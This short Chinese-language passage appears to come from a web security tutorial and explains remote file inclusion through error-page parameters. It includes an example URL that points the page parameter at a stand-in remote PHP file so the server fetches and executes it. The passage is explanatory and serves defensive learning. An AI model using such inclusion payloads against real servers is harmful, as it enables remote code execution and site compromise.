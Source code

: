 Web应用程序偶尔会使用参数值来存储文件的位置，以后服务器会要求该文件的位置。

在错误页面中经常可以看到这种情况的一个例子，其中错误页面的实际文件路径存储在参数
值中 -- 例如`example.com/error.php?page=404.php`。

当参数值（即服务器调用文件的路径）可以用远程资源的地址替换时，会发生远程文件包含 
-- 例如：`yoursite.com/error.asp?page=http://anothersite.com/somethingBad.php`
在某些情况下，服务器将处理获取的资源; 因此，如果资源包含与正在使用的框架（ASP，PHP，JSP等）
的服务器端代码匹配的服务器端代码，则很可能资源将被执行，就好像它是Web应用程序的一部分一样。

可以使用外部资源替换参数值，并让服务器获取它并将其内容包含在响应中。
